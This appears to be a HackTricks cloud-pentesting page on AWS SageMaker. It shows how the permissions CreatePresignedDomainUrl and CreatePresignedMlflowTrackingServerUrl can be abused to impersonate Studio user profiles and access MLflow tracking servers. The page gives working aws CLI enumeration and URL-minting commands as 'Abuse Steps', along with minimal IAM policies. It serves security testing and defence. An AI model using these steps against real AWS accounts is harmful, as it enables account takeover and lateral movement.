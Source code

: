 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Description
An identity with permission to call `sagemaker:CreatePresignedDomainUrl` on a target Studio `UserProfile` can mint a login URL that authenticates directly into SageMaker Studio as that profile. This grants the attacker's browser a Studio session that inherits the profile's `ExecutionRole` permissions and full access to the profile's EFS-backed home and apps. No `iam:PassRole` or console access is required.

### Requirements
- A SageMaker Studio `Domain` and a target `UserProfile` within it.
- The attacker principal needs `sagemaker:CreatePresignedDomainUrl` on the target `UserProfile` (resource‑level) or `*`.

Minimal policy example (scoped to one UserProfile):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedDomainUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate a Studio Domain and UserProfiles you can target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```

2) Generate a presigned URL (valid ~5 minutes by default)
```bash
aws sagemaker create-presigned-domain-url \
  --domain-id $DOM \
  --user-profile-name $TARGET_USER \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to sign into Studio as the target user. In a Jupyter terminal inside Studio verify the effective identity:
```bash
aws sts get-caller-identity
```

Notes:
- `--landing-uri` can be omitted. Some values (e.g., `app:JupyterLab:/lab`) may be rejected depending on Studio flavor/version; defaults typically redirect to the Studio home and then to Jupyter.
- Org policies/VPC endpoint restrictions may still block network access; the token minting does not require console sign‑in or `iam:PassRole`.

### Impact
- Lateral movement and privilege escalation by assuming any Studio `UserProfile` whose ARN is permitted, inheriting its `ExecutionRole` and filesystem/apps.

### Evidence (from a controlled test)
- With only `sagemaker:CreatePresignedDomainUrl` on a target `UserProfile`, the attacker role successfully returned an `AuthorizedUrl` like:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- A direct HTTP request responds with a redirect (HTTP 302) to Studio, confirming the URL is valid and active until expiry.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Description
An identity with permission to call `sagemaker:CreatePresignedMlflowTrackingServerUrl` for a target SageMaker MLflow Tracking Server can mint a single‑use presigned URL that authenticates directly to the managed MLflow UI for that server. This grants the same access a legitimate user would have to the server (view/create experiments and runs, and download/upload artifacts in the server’s S3 artifact store) without console access or `iam:PassRole`.

### Requirements
- A SageMaker MLflow Tracking Server in the account/region and its name.
- The attacker principal needs `sagemaker:CreatePresignedMlflowTrackingServerUrl` on the target MLflow Tracking Server resource (or `*`).

Minimal policy example (scoped to one Tracking Server):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate MLflow Tracking Servers you can target and pick one name
```bash
aws sagemaker list-mlflow-tracking-servers \
  --query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```

2) Generate a presigned MLflow UI URL (valid for a short time)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
  --tracking-server-name "$TS_NAME" \
  --expires-in-seconds 300 \
  --session-expiration-duration-in-seconds 1800 \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to access the MLflow UI as an authenticated user for that Tracking Server.

Notes:
- The Tracking Server must be in a ready state (e.g., `Created/Active`). If it is still `Creating`, the call will be rejected.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### Impact
- Direct access to the managed MLflow UI for the targeted Tracking Server, enabling viewing and modification of experiments/runs and retrieval or upload of artifacts stored in the server’s configured S3 artifact store, within the permissions enforced by the server configuration.

{{#include ../../../../banners/hacktricks-training.md}}
